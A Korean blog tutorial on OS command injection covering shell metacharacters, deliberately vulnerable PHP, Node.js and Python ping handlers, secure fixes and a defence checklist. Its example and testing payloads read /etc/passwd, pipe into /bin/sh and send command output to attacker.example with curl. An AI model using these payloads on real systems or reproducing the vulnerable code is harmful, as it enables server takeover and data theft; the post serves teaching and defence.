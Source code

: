 ```yaml
---
title: "[Infosec] Command Injection 정리: 개념·페이로드·예방법"
date: 2025-09-11 11:10:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, CommandInjection, OSCommand, RCE, Shell]          # 해시태그처럼 글 묶기
description: "시스템에 접근하라"
toc: true
---
```

# 입력 한 줄로 서버를 장악하는 최강의 무기

---

> ⚠️ 이 글은 **보안 학습/방어** 목적입니다. 모든 실습은 **본인 로컬/테스트 환경**에서만 하세요.

## Command Injection이란?

웹/서버 코드가 사용자 입력을 받아 **셸 명령에 그대로 붙여 실행**할 때, 공격자가 입력을 조작해 **임의 명령을 실행**시키는 취약점입니다.  
PHP의 `system()`, Node.js의 `child_process.exec()`, Python의 `os.system()` 처럼 **셸을 거쳐 실행**되는 함수에서 특히 위험합니다.

- 핵심 조건: **“명령 실행 함수에 사용자 입력이 직접 들어간다”**
- 결과: 서버에서 **임의 코드 실행(RCE)**, 파일 읽기/수정, 내부망 스캔, 크리덴셜 탈취 등

---

## 셸 메타문자(연산자) 빠르게 보기

| 기호 | 의미 | 예시 |
|---|---|---|
| `` `cmd` `` | 명령치환 | ``echo `whoami` `` |
| `$(cmd)` | 명령치환 | `echo $(date)` |
| `&&` | 앞 명령 성공 시 다음 실행 | `ping 1.1.1.1 && id` |
| `\|\|` | 앞 명령 실패 시 다음 실행 | `cat nope \|\| echo hi` |
| `;` | 순차 실행(성공/실패 무관) | `id; uname -a` |
| `\|` | 파이프 | `cat /etc/passwd \| wc -l` |
| `>` `>>` `2>&1` | 리다이렉션 | `id > /tmp/o` |
| `*` `?` `[]` | 글롭(glob) | `cat *.log` |
| `'` `"` `\` | 인용/이스케이프 | `'abc'`, `"a b"`, `\` |
| `$VAR` `${VAR}` | 변수 치환 | `echo $PATH` |

> Windows(`cmd.exe`)는 `&`, `&&`, `||`, `|`, `^`, `%VAR%` 등이 주요 연산자입니다.

---

## 공격이 어떻게 일어나나 (예시)

사용자 입력으로 `IP`를 받아 **핑**을 보내는 코드가 있다고 가정합니다.

### ❌ 취약한 코드

**PHP**
```php
<?php
$ip = $_GET['ip'];
// 취약: 셸 한 줄 문자열에 사용자 입력을 그대로 결합
system("ping -c 1 " . $ip);
```
**Node.js**
```js
const { exec } = require("child_process");
app.get("/ping", (req, res) => {
  const ip = req.query.ip;
  exec(`ping -c 1 ${ip}`, (e, out, err) => res.send(out ?? err));
});
```
**Python**
```python
from flask import request
import os
@app.route("/ping")
def ping():
    ip = request.args.get("ip")
    # 취약
    return os.popen(f"ping -c 1 {ip}").read()
```

공격자 입력 예시(유닉스):
```
8.8.8.8; cat /etc/passwd
8.8.8.8 && curl -s https://attacker.example/i?u=$(id)
127.0.0.1 | /bin/sh
```

Windows 예시:
```
8.8.8.8 & type C:\Windows\win.ini
8.8.8.8 && whoami
```

---

## 안전하게 고치기 (핵심 3원칙)

### 1) **셸을 쓰지 말 것** — API/라이브러리 사용
- 핑 체크가 목적이라면 **네트워크 라이브러리**나 **ICMP 모듈** 사용을 우선 고려.

### 2) **셸을 쓴다면 인자 배열 + `shell=false`**
- 명령·인자를 **배열로 전달**하면 셸 메타문자 해석을 막을 수 있습니다.

**Node.js (✅ 안전)**
```js
const { execFile } = require("child_process");
app.get("/ping", (req, res) => {
  const ip = req.query.ip;
  // 1) 허용목록 검증(IPv4/IPv6)
  if (!/^(?:\d{1,3}\.){3}\d{1,3}$/.test(ip)) return res.status(400).send("bad ip");
  // 2) execFile: 셸을 거치지 않음
  execFile("ping", ["-c", "1", ip], { shell: false }, (err, out, e) => {
    if (err) return res.status(500).send("fail");
    res.type("text/plain").send(out);
  });
});
```

**Python (✅ 안전)**
```python
import subprocess, ipaddress
def is_ip(v):
    try: ipaddress.ip_address(v); return True
    except: return False

@app.route("/ping")
def ping():
    ip = request.args.get("ip","")
    if not is_ip(ip): return "bad ip", 400
    r = subprocess.run(["/bin/ping","-c","1",ip], capture_output=True, text=True, shell=False)
    return (r.stdout if r.returncode==0 else "fail"), (200 if r.returncode==0 else 500)
```

**PHP (가능하면 셸 미사용, 부득이하면)**
```php
<?php
$ip = $_GET['ip'] ?? '';
if (!filter_var($ip, FILTER_VALIDATE_IP)) { http_response_code(400); exit('bad ip'); }
// 최소: escape + 명령/인자 분리
$cmd = ['/bin/ping','-c','1',$ip];
// Symfony Process 같은 라이브러리 사용 권장 (인자 분리 지원)
```

> `escapeshellarg()`는 도움이 되지만 **셸을 통과**한다는 점에서 최선은 아닙니다. 가능하면 **execFile/subprocess.run 배열 전달**을 쓰세요.

### 3) **허용목록(allowlist) + 엄격한 검증**
- IP/도메인/옵션 등 입력은 **형식 검증** + **허용된 값만 통과**
- 절대 경로 사용(예: `/bin/ping`)으로 `PATH` 오염 방지
- 환경 고정: `{ PATH: "/usr/bin:/bin" }` 같이 제한

---

## 진단 팁 (테스트 페이로드)

- 성공/실패 분기: `; id`, `&& id`, `| id`
- 파일 읽기: `; cat /etc/passwd` / `& type C:\Windows\win.ini`
- 외부로 유출: `; curl -s https://attacker.example/i?d=$(uname -a)`
- 시간 지연: `; sleep 5` / `& timeout /T 5` (Windows)
- 새 셸 시도: `| /bin/sh`

> 로깅 시 **원본 입력**과 **실행 라인**을 분리 저장하면 포렌식에 큰 도움.

---

## 방어 체크리스트 (실무)

1. **셸 호출 금지**: 가능하면 네이티브 API/라이브러리로 대체  
2. **명령/인자 분리**: `execFile`, `subprocess.run([...], shell=False)`  
3. **입력 검증**: 정규식/파서/표준 라이브러리로 엄격 검증, 허용목록 적용  
4. **권한 최소화**: 실행 계정/컨테이너 권한 최소화, `chroot`/container/AppArmor/SELinux  
5. **환경 고정**: `PATH`, `IFS`, 지역화 변수(LANG/LC_*) 제어  
6. **절대 경로**로 바이너리 지정 (`/usr/bin/grep` 등)  
7. **출력/오류 분리 포착**: 명령 결과를 그대로 클라이언트에 노출하지 말 것  
8. **보안 테스트**: 정적분석(사용자 입력→명령 실행 데이터플로우), 동적 스캐닝, 코드리뷰  
9. **로그/알림**: 실패/지연/특이 인자를 알림으로 전송

---

## 흔한 함정

- **에스케이프만 믿기**: 인코딩/이스케이프는 우회 여지가 많음 (따옴표 종료, 인코딩 미스매치)  
- **`sudo`로 명령 노출**: `sudo` 대상 명령에 **사용자 인자**를 그대로 전달하면 똑같이 위험  
- **임시파일/리디렉션**: `>`, `2>&1` 등으로 파일 덮어쓰기 유도 가능  
- **Windows 특성**: `cmd.exe`와 `powershell.exe`의 연산자는 다름—각각의 메타문자 차이를 고려

---

## 요약

- Command Injection은 **셸을 통과하는 실행 경로**와 **사용자 입력 결합**에서 발생.  
- 최선의 방어는 **셸을 쓰지 않는 것**. 부득이하면 **인자 배열 + shell=false**를 사용하고, **허용목록**과 **환경 고정**으로 표면을 줄이자.  
- 테스트는 간단한 페이로드부터( `; id`, `&& whoami` ) 시작해 **시간/외부요청** 기반으로도 확인.
